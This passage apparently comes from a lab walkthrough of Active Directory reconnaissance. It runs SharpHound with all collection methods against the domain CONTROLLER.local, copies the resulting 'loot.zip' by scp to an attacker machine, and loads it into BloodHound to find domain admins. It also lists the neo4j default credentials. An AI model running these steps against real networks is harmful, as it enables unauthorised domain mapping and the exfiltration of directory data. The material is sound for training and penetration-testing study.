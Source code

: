 ```bash
apt install bloodhound
```

### Collecting data into json w/ `SharpHound`

```powershell
PS C:\Users\Administrator> . .\Downloads\SharpHound.ps1 
PS C:\Users\Administrator> Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip

----------------------------------------------- 
Initializing SharpHound at 7:34 AM on 6/28/2021                                                                      
-----------------------------------------------                                                                      
   
Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container 
   
[+] Creating Schema map for domain CONTROLLER.LOCAL using path CN=Schema,CN=Configuration,DC=CONTROLLER,DC=LOCAL     
[+] Cache File not Found: 0 Objects in cache   
[+] Pre-populating Domain Controller SIDS 
Status: 0 objects finished (+0) -- Using 97 MB RAM 
Status: 66 objects finished (+66 8)/s -- Using 102 MB RAM 
Enumeration finished in 00:00:00.6725714                           
Compressing data to C:\Users\Administrator\20210628073430_loot.zip 
You can upload this file directly to the UI 

SharpHound Enumeration Completed at 7:34 AM on 6/28/2021! Happy Graphing! 
```

## Transferring the loot.zip folder to our Attacker Machine

```powershell
PS C:\Users\Administrator> scp .\20210628073430_loot.zip mimiron@10.11.35.147:/tmp 
mimiron@10.11.35.147's password: 
20210628073430_loot.zip     100% 9559   298.7KB/s   00:00
```

## Mapping the network w/ `Bloodhound`

```bash
# Open a terminal and type the following:
neo4j console # default credentials -> neo4j:neo4j
# In another terminal, open bloodhound:
bloodhound 
```

- Drag and drop the loot.zip folder into Bloodhound to import the .json files

- Simple query: find all domain admins
